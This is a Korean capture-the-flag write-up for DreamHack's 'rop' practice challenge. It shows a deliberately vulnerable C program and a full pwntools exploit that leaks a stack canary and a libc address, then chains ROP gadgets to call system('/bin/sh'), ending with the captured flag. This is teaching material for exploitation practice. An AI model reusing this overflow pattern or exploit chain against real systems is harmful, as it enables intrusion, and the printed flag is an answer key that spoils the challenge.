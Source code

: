 # [DreamHack] rop

:writing_hand: [h0meb0dy](mailto:h0meb0dysj@gmail.com)

> Exploit Tech: Return Oriented Programming에서 실습하는 문제입니다.
>
> Release: [rop.zip](https://github.com/h0meb0dy/Dreamhack-Wargame/files/8547674/rop.zip)

## Mitigation

![image](https://user-images.githubusercontent.com/102066383/159821270-dee0d311-3a7e-4e6a-80e5-758a575ae0a5.png)

## Analysis

```c
int main() {
  char buf[0x30];

  setvbuf(stdin, 0, _IONBF, 0);
  setvbuf(stdout, 0, _IONBF, 0);

  // Leak canary
  puts("[1] Leak Canary");
  printf("Buf: ");
  read(0, buf, 0x100);
  printf("Buf: %s\n", buf);

  // Do ROP
  puts("[2] Input ROP payload");
  printf("Buf: ");
  read(0, buf, 0x100);

  return 0;
}
```

`read(0, buf, 0x100)`로 두 번의 BOF가 발생한다. 첫 번째 BOF에서 canary를 leak하고, 두 번째 BOF에서 `main()`의 return address를 덮어 ROP를 수행할 수 있다.

## Exploit

### Leak canary

```python
# leak canary

sa('Buf: ', 'a' * 0x39)
r.recvuntil('Buf: ' + 'a' * 0x39)
canary = u64(r.recvn(7).rjust(8, b'\x00'))
```

### Leak libc

ROP로 `puts(GOT)`를 호출하여 libc 주소를 leak할 수 있다. 그리고 나서 다시 `main()`으로 돌아가 `system("/bin/sh")`을 호출하면 셸을 획득할 수 있다.

```python
# leak libc

payload = b'a' * 0x38 # dummy
payload += p64(canary) # canary
payload += b'a' * 0x8 # sfp
payload += p64(pop_rdi)
payload += p64(puts_got)
payload += p64(puts_plt)

sa('Buf: ', payload)
puts = u64(r.recvline()[:-1].ljust(8, b'\x00')) # puts()
log.info('puts: ' + hex(puts))
```

`puts()`의 오프셋을 libc database에 넣어서 libc 버전을 알아낼 수 있고, `system()` 함수와 `"/bin/sh"` 문자열의 주소도 구할 수 있다.

```
$ python3 solve.py
[+] Opening connection to host1.dreamhack.games on port 20515: Done
[*] puts: 0x7f358e4f1aa0
```

![image](https://user-images.githubusercontent.com/102066383/159828980-cf30ddf9-7481-44b6-bb6e-17f9d60b45a4.png)

### Return to main / Call system("/bin/sh")

```python
# call system("/bin/sh")

sa('Buf: ', 'a')
r.recvline()

payload = b'a' * 0x38 # dummy
payload += p64(canary) # canary
payload += b'a' * 0x8 # sfp
payload += p64(ret)
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(system)

sa('Buf: ', payload)
```

### Full exploit

```python
from pwn import *

REMOTE = True

if not REMOTE:
    r = process('./release/rop')
    puts_offset = 0x80970
    system_offset = 0x4f420
    binsh_offset = 0x1b3d88
else:
    r = remote('host1.dreamhack.games', 20626)
    puts_offset = 0x80aa0
    system_offset = 0x4f550
    binsh_offset = 0x1b3e1a

sa = r.sendafter

pop_rdi = 0x4007f3  # pop rdi; ret
ret = 0x40055e  # ret gadget
puts_plt = 0x400570  # PLT of puts()
puts_got = 0x601018  # GOT of puts()
main = 0x4006a7  # main()


# leak canary

sa('Buf: ', 'a' * 0x39)
r.recvuntil('Buf: ' + 'a' * 0x39)
canary = u64(r.recvn(7).rjust(8, b'\x00'))


# leak libc

payload = b'a' * 0x38  # dummy
payload += p64(canary)  # canary
payload += b'a' * 0x8  # sfp
payload += p64(pop_rdi)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(main)  # return to main

sa('Buf: ', payload)
puts = u64(r.recvline()[:-1].ljust(8, b'\x00'))  # puts()
libc = puts - puts_offset  # libc base
system = libc + system_offset  # system()
binsh = libc + binsh_offset


# call system("/bin/sh")

sa('Buf: ', 'a')
r.recvline()

payload = b'a' * 0x38  # dummy
payload += p64(canary)  # canary
payload += b'a' * 0x8  # sfp
payload += p64(ret)
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(system)

sa('Buf: ', payload)


r.interactive()
```

```
$ python3 solve.py
[+] Opening connection to host1.dreamhack.games on port 20626: Done
[*] Switching to interactive mode
$ cat flag
DH{68b82d23a30015c732688c89bd03d401}
```
